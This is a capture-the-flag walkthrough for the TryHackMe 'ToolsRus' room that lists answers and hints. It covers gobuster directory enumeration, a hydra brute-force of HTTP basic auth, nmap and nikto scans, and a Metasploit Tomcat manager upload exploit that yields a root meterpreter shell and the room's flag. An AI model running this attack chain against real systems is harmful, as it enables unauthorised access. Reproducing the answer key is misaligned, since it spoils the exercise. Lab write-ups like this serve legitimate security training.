 #### Link to room: https://tryhackme.com/room/toolsrus

#### [Task 1] ToysRus
   1. guidelines
> Hint: 
>
> Typed in the following command into the terminal: 
>
> "gobuster dir -u \<GIVEN-IP-ADDRESS\> -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt" 
   2. bob
> Hint: 
>
> From the output in task 1, you should see some discovered directories
>
> Navigate to the page in a browser: 
>
> http://\<GIVEN-IP-ADDRESS\>/guidelines/
   3. protected
> Hint: 
>
> From the output in task 1, you should see some discovered directories
>
> Navigate to the page in a browser: 
>
> http://\<GIVEN-IP-ADDRESS\>/guidelines/
>
> You will then be prompted for basic authentication 
   4. bubbles
> Hint: 
>
> Type the following command into terminal: 
>
> hydra -l bob -P /usr/share/wordlists/rockyou.txt \<GIVEN-IP-ADDRESS\> http-get /protected
   5. 1234
> Hint: 
>
> Type in the command "nmap -sC -sV \<GIVEN-IP-ADDRESS\>"
>
> -sC = Use default scripts to scan the IP address 
>
> -sV = Use for service/version detection 
>
> You should get an ouput like this 
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1a:c9:84:d6:1b:78:6c:e4:3a:64:ca:ea:e6:11:92 (RSA)
|   256 a2:ab:a9:d3:4d:a2:31:70:21:5c:b4:8b:a4:6c:1c:cc (ECDSA)
|_  256 6b:7e:6a:ab:46:3a:e2:cb:38:e9:84:9d:05:a8:53:33 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
> You can see that on port 1234 there are also HTTP running so therefore it is that port since port 8009 has no HTTP running on it
   6. Apache Tomcat/7.0.88
> Hint
>
> Looking at the NMAP output you should be able to see something like "http-title:"
>
> This contains the information for the service name and port 
   7. 5
> Hint: 
>
> For me the nikto scan didnt work however a command something like would work: 
>
> nikto -id bob:bubbles -h http://\<GIVEN-IP-ADDRESS\>:1234/manager/html
>
> In addition if you navigate to "http://\<GIVEN-IP-ADDRESS\>:1234/manager/html" on a browser 
>
> And enter the credentials found for question 4 
>
> You will be able to see the documents there too
>
   8. Apache/2.4.18
> Hint
>
> Looking at the NMAP output you should be able to see something like "http-server-header" for port 80 
   9. 1.1
> Hint
>
> Looking at the NMAP output you should be able to see something like "http-server-header" for port 1234 
   10.
> Hint: 
>
> From out nmap scan we saw that the version for Apache Tomcat was 7.0.88
>
> If we were to search for "Apache Tomcat/7.0.88 exploit metasploit" into google
>
> We should come across this [web page](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload)
>
> If we type "msfconsole" into a terminal 
>
> Then type "use exploit/multi/http/tomcat_mgr_upload"
>
> And "set rhost \<GIVEN-IP-ADDRESS\>"
>
> And "set HttpPassword bubbles"
>
> And "set HttpUsername bob" 
>
> And "set rport 1234" 
>
> And finally type "run"
>
> We should get a meterpreter shell 
>
> If you type "pwd" for print working directory 
>
> We will see that we are in the "/" directory meaning that we are the root user 
   11. ff1fc4a81affcc7688cf89ae7dc6e0e1
> Hint: 
>
> Type the command "cat /root/flag.txt" to get the answer
